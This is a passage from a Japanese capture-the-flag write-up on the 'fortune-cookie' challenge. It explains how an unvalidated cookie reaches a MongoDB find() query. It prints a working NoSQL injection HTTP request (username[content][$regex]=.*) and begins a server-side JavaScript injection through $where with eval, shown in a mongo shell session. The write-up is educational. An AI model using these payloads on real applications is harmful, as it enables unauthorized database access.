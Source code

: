 `POST /posts`内では、セットされたCookieは、通常以下の順に使われます。

1. ②とコメントを付けた行で`POST /posts`において変数`author`に代入
2. ③とコメントを付けた行でオブジェクトに変換
3. ④で`find()`のクエリセレクタとして使用

例えば、Cookieの値に`8ayac`が入っていた場合、この値は③で`{"author": "8ayac"}`という値に変換され、最終的に`author`が`8ayac`なドキュメントを取得するようなクエリが発行されます。

ここまでの流れに、脆弱性があります。
もし、Cookieの値にオブジェクトが入っていた場合には、任意の条件を指定してfindクエリを発行させられます。

例えば、Cookieの値に`{content:{'$regex':'.*'}}`というオブジェクトが入っていたとします。
すると、この値は②で変数`author`に代入されたあと、そのまま④で使われ、`content`が`.*`という正規表現にマッチするドキュメントを取得するようなクエリが発行されることがわかります。

実際に、同様の値をCookieにセットする場合は、以下のようなリクエストを送信します。
これを応用すればCookieの値に任意のオブジェクトを指定できます。

```http
POST /login HTTP/1.1
Host: fortune-cookie.ctf.defenit.kr
Content-Length: 14
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
Origin: http://fortune-cookie.ctf.defenit.kr
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://fortune-cookie.ctf.defenit.kr/login
Accept-Encoding: gzip, deflate
Accept-Language: ja,en-US;q=0.9,en;q=0.8,zh-CN;q=0.7,zh;q=0.6
Connection: close

username[content][$regex]=.*
```

### SSJIにつなげる

MongoDBには、サーバーサイドでJSが実行される機能がいくつかあります。
`$where`演算子はその一つです。
詳しくは、<https://docs.mongodb.com/manual/core/server-side-javascript/>を御覧ください。

> $where operator that evaluates a JavaScript expression or a function in order to query for documents.

以下のように、`$where`の条件内の`eval`関数が評価され、実行されていることが確認できます。

```txt
root@5895c47e40e5:/# mongo -u redacted -p redacted
MongoDB shell version v4.2.7
(snip)
> use fortuneCookie
switched to db fortuneCookie
> db.posts.find({ $where: "eval(1+1) == 1" })
> db.posts.find({ $where: "eval(1+1) == 2" })
{ "_id" : ObjectId("5edc178c9ee53600459bd3b0"), "author" : "8ayac", "content" : "hoge" }
{ "_id" : ObjectId("5edc373b9ee53600459bd3b1"), "author" : "8ayac", "content" : "fuga" }
```
